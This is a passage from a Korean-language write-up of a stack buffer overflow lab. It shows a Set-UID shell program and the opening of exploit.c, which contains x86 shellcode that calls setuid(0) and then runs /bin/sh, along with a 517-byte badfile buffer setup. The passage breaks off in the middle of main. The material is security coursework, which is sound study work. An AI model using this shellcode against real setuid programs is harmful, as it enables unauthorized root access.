     	// setuid(0);
    	execve("/bin/sh", argv, NULL);
    
    	return 0;
    }
    ```
    
- Step 3: 해당 프로그램을 컴파일 해주고, Set_UID 프로그램으로 만들어준다.
    
    ![▲ 실행화면](/images/Stack%20Buff%208fe39/Untitled%2012.png)
    
    → 정상적으로 shell이 실행되는 것을 볼 수 있다.
    
- Step 4: Task 2에서 실행했던 exploit.c에 교재에서 말한 4줄을 수정하고 다시 진행해본다.
    
    ```c
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    
    char shellcode[]=
    	"\x31\xc0"
    	"\x31\xdb"
    	"\xb0\xd5"
    	"\xcd\x80"
    // ------------the code below is the same as the one in Task 2----------
    	"\x31\xc0"
    	"\x50"
    	"\x68""//sh"
    	"\x68""/bin"
    	"\x89\xe3"
    	"\x50"
    	"\x53"
    	"\x89\xe1"
    	"\x99"
    	"\xb0\x0b"
    	"\xcd\x80"
    ;
    
    void main(int argc, char **argv)
    {
    	char buffer[517];
    	FILE *badfile;
    	int shelllen;
    	int off;
    	int buff;
    	int ebp;
    	int ret;
    	int start;
    	